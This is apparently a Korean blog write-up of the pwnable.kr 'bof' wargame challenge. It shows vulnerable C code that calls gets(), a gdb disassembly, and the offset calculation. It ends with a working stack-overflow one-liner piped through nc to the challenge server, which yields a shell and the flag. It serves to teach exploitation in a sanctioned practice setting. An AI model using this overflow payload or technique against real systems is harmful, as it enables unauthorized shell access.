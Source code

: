 ```yaml
---
title: Pwnable.kr bof
categories: [Wargame]
tags: [Pwnable.kr]
path: '/articles/2016-03/Pwnable.kr-bof'
date: '2016-03-26T12:00:00.000Z'
comments: true
---
```


bof문제의 파일을 읽어보면 다음과 같다.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);    // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

func함수에서 `gets`의 취약점을 이용하여 overflow를 수행하는 문제이다. 이 프로그램을 파악해 보면 다음과 같다.

```
gdb-peda$ pdisas func
Dump of assembler code for function func:
   0x0000062c <+0>:    push   ebp
   0x0000062d <+1>:    mov    ebp,esp
   0x0000062f <+3>:    sub    esp,0x48
   0x00000632 <+6>:    mov    eax,gs:0x14
   0x00000638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:    xor    eax,eax
   0x0000063d <+17>:    mov    DWORD PTR [esp],0x78c ; "overflow me : "
   0x00000644 <+24>:    call   printf
   0x00000649 <+29>:    lea    eax,[ebp-0x2c] ; char overflowme[32]
   0x0000064c <+32>:    mov    DWORD PTR [esp],eax
   0x0000064f <+35>:    call   gets
   0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
 ...
```

먼저 `call printf`를 수행한다. 그 후 `gets`를 호출한다. 이 때 `ebp - 0x2c`의 위치에 **overflowme**라는 배열이 들어있음을 확인할 수 있다.

그 후 `ebp + 0x8`의 값과 0xcafebabe를 비교한다. overflow시켜야할 총 데이터는 0x2c + 0x8의 값을 덮어쓰고, 그 후에 원하는 데이터를 덮어야 한다.

값은 **리틀엔디안**이므로 반대로 넣어주면 된다.

```bash
ubuntu@ubuntu:~$ (python -c 'print "A" * 52 + "\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000
ls
bof
bof.c
flag
log
super.pl
cat flag
daddy, I just pwned a buFFer :)
```
